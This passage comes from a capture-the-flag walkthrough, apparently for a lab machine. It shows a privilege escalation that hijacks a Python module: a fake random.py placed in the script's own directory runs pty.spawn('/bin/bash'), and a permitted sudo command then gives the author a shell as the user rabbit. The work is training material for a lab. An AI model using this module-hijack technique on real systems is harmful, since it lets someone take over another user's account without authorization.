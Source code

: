 Using the command `python3 -c 'import random;print(random.__file__)'` we can find the location where the module `random` is located. From the output, we can see that `random` is located in the directory `/usr/lib/python3.6/`. If we look at the output of `sys.path` we notice that this is the 3rd location that is searched.

```bash
# Python Path Variable
python3 -c 'import sys;print(sys.path)'

# Random Module Location
python3 -c 'import random;print(random.__file__)'
```

`-c`: Program passed as String

[How do I find the location of Python module sources? - Stack Overflow](https://stackoverflow.com/questions/269795/how-do-i-find-the-location-of-python-module-sources)

[Why is the first element in Python's sys.path an empty string? - Stack Overflow](https://stackoverflow.com/questions/49559003/why-is-the-first-element-in-pythons-sys-path-an-empty-string)

![[alice-4.png|640]]

We know that the `.py` file is executed as the user Rabbit. If we create a custom `random.py` file and place it in a directory that comes before the directory where the real `random.py` file is located then Python would load our code in place of the actual code. If we add code to spawn a shell in our `random.py` code will get a shell where we are the user Rabbit.

Since the directory that contains the executed code is the first location where Python looks for modules we can create our `random.py` in the same location as the script (i.e. `/home/alice/`).

```bash
nano random.py
```

![[alice-5.png|440]]

```python
# Code to Spawn Shell
import pty
pty.spawn("/bin/bash")
```

When we execute the script we need to use the full path as in the `sudoers` file this is how it has been configured.

```bash
sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

`-u`: Run-as User

![[alice-6.png|520]]

### Hatter

Once I became the user Rabbit I listed the files in Rabbit's home directory.
